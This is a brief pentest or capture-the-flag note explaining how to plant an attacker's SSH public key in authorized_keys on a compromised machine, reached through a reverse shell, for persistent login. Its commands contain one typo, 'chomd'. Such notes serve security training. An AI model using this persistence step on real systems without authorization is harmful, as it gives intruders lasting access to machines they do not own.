 # SSH_KEY_ON_BOX

dropping an SSH key and using SSH to access the box/machine

make a dir name - .ssh(in the home folder of box)
```bash
 mkdir .ssh
 vi authorized_keys #if the reverse shell is misbehaving can echo your key
 echo 'contents of .pub file' >> authorized_keys
```

****** drop/create an ssh key ******* (type the following command on your terminal)
```bash
 ssh-keygen -f <file name>  			   # (-i to use key)
 ls 

 cat <file name>                     # (it will be with the extention of .pub)
```
'paste the file contents on the box in **authorized_keys** file created earlier on the rc'
> *on our terminal*
```bash
 chomd 600 <file name>  # (this is the private key) 

 ssh -i <file name> user@<machine/box IP>

```

Note : 
1. Always make the file under the name of 'authorized_keys' on the box/machine or else it won't work.
2. Remember to give the correct permission number for execution.
3. If you place the private key i.e id_rsa in your .ssh dir you can login without -i switch 
<!-- https://phoenixnap.com/kb/ssh-permission-denied-publickey#:~:text=If%20you%20want%20to%20use,login%20in%20the%20sshd_config%20file.&text=In%20the%20file%2C%20find%20the,disable%20it%20by%20adding%20no%20. -->




